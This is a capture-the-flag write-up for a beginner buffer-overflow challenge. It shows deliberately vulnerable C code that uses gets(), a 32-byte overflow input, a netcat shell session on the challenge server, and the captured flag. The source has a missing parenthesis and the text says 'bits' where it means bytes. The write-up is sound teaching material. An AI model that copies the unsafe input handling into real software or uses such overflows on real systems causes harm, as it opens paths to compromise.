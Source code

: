 # coffer-overflow-0

Author: [roerohan](https://github.com/roerohan)

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-0](./coffer-overflow-0).

```
Can you fill up the coffers? We even managed to find the source for you.

nc 2020.redpwnc.tf 31199
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)";
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

# Exploitation

The goal is clear, we have to somehow set a non-zero value in `code`.
<br />

We see in the code snippet that `name` is alloted 16 bytes, and `code` is alloted 8 bytes (long, 64-bit). Also, the `gets()` function is used, which does not check the size of the input. So, we can simply write past the space alloted for `name` and write into `code`.
<br />

Space in the stack is generally assigned in multiples of 16, so for this function, 32 bits will be assigned. We can simply fill this with `a`s, each `a` being 1 byte, and fill up everything, thus changing the value of `code` as well. We get a shell.

```bash
$ python2 -c "print 'a'*32"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

$ nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

The flag is:

```
flag{b0ffer_0verf10w_3asy_as_123}
```